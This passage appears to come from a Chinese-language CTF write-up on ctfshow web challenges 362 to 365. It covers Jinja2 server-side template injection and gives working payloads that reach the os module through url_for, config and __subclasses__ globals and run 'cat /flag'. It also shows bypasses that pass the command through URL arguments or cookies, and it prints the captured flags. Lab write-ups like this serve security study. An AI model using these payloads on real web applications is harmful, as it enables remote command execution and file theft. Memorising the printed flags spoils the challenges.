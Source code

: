 再用上个payload进行尝试，发现没有flag出现?name={{%27%27.__class__.__base__.__subclasses__()[132].__init__.__globals__[%27os%27][%27popen%27](%27cat%20/flag)}}

![image](assets/image-20250416205522-bqaqmw6.png)

猜测应该是过滤了某些参数

咱们直接尝试通过url_for调用os模块

直接尝试{{url_for.__globals__.os.popen('cat /flag').read()}}

![image](assets/image-20250416205726-9dtjhyz.png)

发现flag：ctfshow{11132bf0-23ca-449c-a8d1-bbf40cda2e8d}

‍

# web363

前几步与前两题步骤一致

但是在进行查看类的时候发现没有子类回显，那咱们换一种返回的数据类型"也不行应该是过滤了单双引号，换成[]试试，''和[]只是返回的数据类型不同，本质上没有区别

发现有回显

![image](assets/image-20250416211649-gv4zjfn.png)

接下来的步骤和上面基本一致，仍然是查找子类

直接用已经加载os模块的子类调用os模块，然后用request方法，就是调用request.args.a(这里的a可以换成任何数字字符，自定义的变量，可以任意设置)就像是传参一样

​`？name{{config.__class__.__init__.__globals__[request.args.a].popen(request.args.b).read()}}&a=os&b=cat /flag`​

![image](assets/image-20250416220115-swbqg1e.png)

发现flag：ctfshow{d0fa332c-60fa-47d2-9c08-c43eee78c791}

注：还有char方法可以解决单双引号过滤，这里不过多讲述

# web364

前面步骤一致

在使用上题的payload发现没有回显，猜测应该是把args给过滤了，那就换成cookie进行注入

payload：{{url_for.__globals__[request.cookies.a][request.cookies.b]\\\(request.cookie.c).read()}}

cookie传参：a = os;b = popen ; c=cat /flag

# web365

前面步骤一样，但是发现查看子类的时候没有回显，猜测应该是过滤了[]或者()，那么先进行[]的替换试试，把[]换成()试试，发现可以

到查看具体子类时直接使用__getitem__()绕过[],发现出现了os模块
